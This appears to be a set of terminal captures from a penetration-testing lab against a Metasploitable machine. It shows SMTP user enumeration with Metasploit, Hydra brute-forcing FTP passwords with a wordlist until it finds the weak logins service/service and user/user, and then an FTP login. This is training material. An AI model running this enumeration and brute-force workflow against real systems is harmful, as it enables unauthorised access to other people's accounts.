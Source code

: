 ```
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.0.22.55:25         - 10.0.22.55:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)

[+] 10.0.22.55:25         - 10.0.22.55:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
[*] 10.0.22.55:25         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
```

```
root@attackdefense:~# hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.0.22.55 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 16:00:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ftp://10.0.22.55:21/
[21][ftp] host: 10.0.22.55   login: service   password: service
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 16:01:23
```

```
root@attackdefense:~# hydra -l user -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.0.22.55 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 16:03:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ftp://10.0.22.55:21/
[21][ftp] host: 10.0.22.55   login: user   password: user
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 16:03:51
```

```
[21][ftp] host: 10.0.22.55   login: service   password: service
[21][ftp] host: 10.0.22.55   login: user   password: user
```

```
root@attackdefense:~# ftp 10.0.22.55 21
Connected to 10.0.22.55.
220 (vsFTPd 2.3.4)
Name (10.0.22.55:root): service
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /home/service
ftp> ls
229 Entering Extended Passive Mode (|||41126|).
```